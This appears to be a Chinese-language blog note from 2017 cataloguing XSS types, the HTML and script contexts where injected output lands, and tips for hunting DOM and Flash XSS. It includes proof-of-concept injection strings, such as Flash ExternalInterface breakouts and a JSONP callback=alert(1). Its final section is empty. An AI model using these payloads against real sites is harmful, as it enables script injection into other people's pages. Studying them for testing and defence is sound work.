 ```yaml
---
title: XSS
date: 2017-09-16 01:53:10
tags: WEB安全
---
```


# XSS
分类
## 需要服务器参与
* 反射性XSS
* 储存性XSS
* flash
## 不需要服务器参与
* DOM XSS



***
输出模型

```
1. <HTML标签>[输出]</HTML标签>
2. <script>[输出]</script>
3. <style>...[输出]...</script>
4. <HTML标签onXXXX="...[输出在这里]..">
5. <a href="javascript:[输出在这里]">xxxx</a>
>(onxxxx="[输出]"和href="javascript:[输出]"与<script>[输出]</script>没有太大区别)

6. <iframe src="[输出]"></iframe>
7. script src="/path/xxx/.../yyy/xx.json?callback=alert(1)
   script src="/xxxx/json.php?callback=xxxx&param1=yyy&param2=[参数可控]"(覆盖callback)
```

***

#### DOM XSS 挖掘
```txt
1. 可以在右键源码页面有回显
2. 可以在控制台定位
3. 添加一些符号导致js报错
```
***

#### flash xss 挖掘
输入模型
1. ExternalInterface.call 第一个参数可控
```txt
try{__flash__toXML(函数名("参数1"));}catch(e){"<undefined/>";}(一种绕过方式)

try{__flash__toXML(SWFUpload.instances["aaaaaaaa"].flashReady("参数1"));}catch(e){"<undefined/>";}
我们再基于以上代码来构造，
try{__flash__toXML(SWFUpload.instances["aaa"])}catch(e){alert(1)};//"].flashReady("参数1"));}catch(e){"<undefined/>";}

```
2. ExternalInterface.call 第二个参数可控
```txt
try{__flash__toXML(custom_menu_swf("构造点"),alert("构造点"));}catch(e){"<undefined/>";}
try{__flash__toXML(custom_menu_swf("构造点\\"))}catch(e){alert(1)}//构造点"));}catch(e){"<undefined/>";}
```
挖掘方法
```txt
```
